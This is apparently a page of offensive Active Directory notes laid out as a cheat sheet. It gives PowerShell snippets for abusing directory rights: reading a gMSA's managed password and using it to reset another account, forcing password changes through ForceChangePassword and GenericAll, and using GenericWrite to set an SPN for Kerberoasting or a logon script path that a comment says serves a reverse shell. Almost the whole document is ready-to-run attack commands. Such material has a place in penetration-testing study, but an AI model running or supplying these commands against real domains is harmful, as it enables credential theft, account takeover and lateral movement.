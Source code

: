```
```

\*ReadGMSApassword Without PowerView

```
$gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'
$mp = $gmsa.'msds-managedpassword'
$mp1 = ConvertFrom-ADManagedPasswordBlob $mp 
$user = 'BIR-ADFS-GMSA$' 
$passwd = $mp1.'CurrentPassword'
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = new-object system.management.automation.PSCredential $user,$secpass
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred
```

ReadGMSApassword EXE

```
.\GMSAPasswordReader.exe --AccountName 'Target_Account'
```

_ForceChangePassword_

```
$SecPassword = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUser,$SecPassword
$UserPassword = ConvertTo-SecureString 'LateralEscUserPass' -AsPlainText -Force
Set-DomainUserPassword -Identity LateralEscUserName -AccountPassword $UserPassword -Credential $Cred
```

_GenericAll_

```
$CompromisedUserName = 'CompromisedUserName'
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass

Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity LateralEscUserName -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'password' -force)} -Credential $cred
```

_GenericWrite_

_use this for reverseshell using scriptpath=, enumeration, or use serviceprincipalname= for kerberoast_

```
$CompromisedUserName = 'CompromisedUserName'
$CompromisedUserPass = ConvertTo-SecureString 'CompromisedUserPass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential $CompromisedUserName,$CompromisedUserPass
Set-DomainObject -Credential $Cred -Identity LateralEscUserName -SET @{serviceprincipalname='thescriptkid/thescriptkid'} 
Get-DomainSPNTicket -Credential $Cred LateralEscUserName | fl
OR 
Set-DomainObject -Credential $Cred -Identity LateralEscUserName -SET @{scriptpath='C:\\path\\to\\script.ps1'}
```

